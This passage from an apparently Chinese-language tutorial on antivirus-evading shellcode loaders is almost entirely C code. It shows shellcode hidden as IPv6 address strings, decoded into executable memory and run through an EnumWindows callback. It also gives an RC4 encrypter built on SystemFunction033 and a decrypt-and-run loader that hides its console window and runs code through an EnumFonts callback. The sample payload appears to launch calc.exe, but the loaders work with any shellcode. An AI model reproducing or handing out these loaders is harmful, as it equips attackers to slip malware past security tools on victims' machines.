  const char* buf[] = { "fc48:83e4:f0e8:c000:0:4151:4150:5251", "5648:31d2:6548:8b52:6048:8b52:1848:8b52", "2048:8b72:5048:fb7:4a4a:4d31:c948:31c0", "ac3c:617c:22c:2041:c1c9:d41:1c1:e2ed", "5241:5148:8b52:208b:423c:4801:d08b:8088", "0:48:85c0:7467:4801:d050:8b48:1844", "8b40:2049:1d0:e356:48ff:c941:8b34:8848", "1d6:4d31:c948:31c0:ac41:c1c9:d41:1c1", "38e0:75f1:4c03:4c24:845:39d1:75d8:5844", "8b40:2449:1d0:6641:8b0c:4844:8b40:1c49", "1d0:418b:488:4801:d041:5841:585e:595a", "4158:4159:415a:4883:ec20:4152:ffe0:5841", "595a:488b:12e9:57ff:ffff:5d48:ba01:0", "::48:8d8d:101:0:41ba:318b", "6f87:ffd5:bbf0:b5a2:5641:baa6:95bd:9dff", "d548:83c4:283c:67c:a80:fbe0:7505:bb47", "1372:6f6a:59:4189:daff:d563:616c:632e", "6578:6500::" };
  PCSTR lTerminator = NULL;
  DWORD pflOldProtect = 0;
  LPVOID alloc_mem = VirtualAlloc(NULL, sizeof(buf) * 16, MEM_COMMIT,
    PAGE_READWRITE);
  DWORD_PTR ptr = (DWORD_PTR)alloc_mem;
  int init = sizeof(buf) / sizeof(buf[0]);
  for (int i = 0; i < init; i++) {
    RPC_STATUS STATUS = RtlIpv6StringToAddressA((PCSTR)buf[i], &lTerminator,
      (in6_addr*)ptr);
    if (!NT_SUCCESS(STATUS)) {
      printf("[!] RtlIpv6StringToAddressA failed in %s result %x (%u)", buf[i], STATUS,
        GetLastError());
      return FALSE;
    }
    ptr += 16;
  }
  VirtualProtect(alloc_mem, sizeof(buf) * 16, PAGE_EXECUTE, &pflOldProtect);
  EnumWindows((WNDENUMPROC)alloc_mem, NULL);
  return 0;
}

```

RtlIpv6StringToAddressA 将 IPv6 地址字符串的二进制格式直接存储到指针指向的内存位置


## 9.4rc4加密

### 加密

```c_cpp
#include <windows.h>
#include <stdio.h>
typedef NTSTATUS(WINAPI* _SystemFunction033)(
 struct ustring *memoryRegion,
 struct ustring *keyPointer);
struct ustring {
 DWORD Length;
 DWORD MaximumLength;
 PUCHAR Buffer;
} _data, key;
int main() {
 printf("[*] RC4 Shellcode Encrypter using Systemfunction032/033\n");
 puts("[*] Coded by: @OsandaMalith - www.osandamalith.com");
 _SystemFunction033 SystemFunction033 =
(_SystemFunction033)GetProcAddress(LoadLibrary(L"advapi32"), "SystemFunction033");
 // 加密的key
 char _key[] = "www.osandamalith.com";
 // rc4加密遇到\x00会停止, 所以转成 0x00形式, 对应cs是c#
 unsigned char shellcode[] = {
  0x6A, 0x60, 0x5A, 0x68, 0x63, 0x61, 0x6C, 0x63, 0x54, 0x59, 0x48, 0x29, 0xD4, 0x65, 0x48
 };
 key.Buffer = (PUCHAR)(&_key);
 key.Length = sizeof key;
 _data.Buffer = (PUCHAR)shellcode;
 _data.Length = sizeof shellcode;
 SystemFunction033(&_data, &key);
 printf("\nunsigned char shellcode[] = { ");
 for (size_t i = 0; i < _data.Length; i++) {
  if (!(i % 16)) printf("\n ");
  printf("0x%02x, ", _data.Buffer[i]);
  if(i == _data.Length-1) printf("0x%02x };", _data.Buffer[i]);
 }
}
```

### 解密运行

```c_cpp
#include <windows.h>
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") // 不显示黑窗

/*
* RC4 Shellcode Decrypter using Systemfunction032/033
* Coded by: @OsandaMalith - www.osandamalith.com
*/
typedef NTSTATUS(WINAPI* _SystemFunction033)(
 struct ustring *memoryRegion,
 struct ustring *keyPointer);
struct ustring {
 DWORD Length;
 DWORD MaximumLength;
 PUCHAR Buffer;
} _data, key;
int main() {
 _SystemFunction033 SystemFunction033 =
(_SystemFunction033)GetProcAddress(LoadLibrary(L"advapi32"), "SystemFunction033");
 char _key[] = "www.osandamalith.com";
 
 unsigned char shellcode[] = {
  0x5f, 0xfc, 0xb3, 0x2c, 0x87, 0xd5, 0xc1, 0xe8, 0x2b, 0xac, 0x12, 0x8f, 0x00, 0x5e, 0xef, 
 0xd3,
  0xd6, 0x3a, 0x04, 0x80, 0x05, 0xa1, 0x43, 0x45, 0x6a, 0xce, 0x2c, 0xf9, 0x58, 0x0f, 0x34, 
 0xdf,
  0xf8, 0x8b, 0x78, 0x63, 0xb4, 0x7a, 0xba, 0x5d, 0xdf, 0x14, 0x4f, 0x6b, 0xbf, 0xcd, 0x04, 
 0x44,
  0x53, 0x2f, 0x35, 0x15, 0x75, 0x56, 0x6a, 0xb6, 0xab, 0xd3, 0x7b, 0xcc, 0x03, 0xb6, 0x16, 
 0x4f,
  0x4b, 0x30, 0x01, 0x57, 0x58, 0xd8, 0xd0, 0x0b, 0x0b, 0xa0, 0xa1, 0x66, 0x98, 0x83, 0x7e, 
 0xdb,
  0x0d, 0x1a, 0x08, 0x41, 0x62, 0x62 };
 key.Buffer = (PUCHAR)(&_key);
 key.Length = sizeof key;
 _data.Buffer = (PUCHAR)shellcode;
 _data.Length = sizeof shellcode;
 SystemFunction033(&_data, &key);
 DWORD oldProtect = 0;
 BOOL ret = VirtualProtect((LPVOID)shellcode, sizeof shellcode, PAGE_EXECUTE_READWRITE, 
&oldProtect);
 EnumFonts(GetDC(0), (LPCWSTR)0, (FONTENUMPROC)(char*)shellcode, 0);
}
```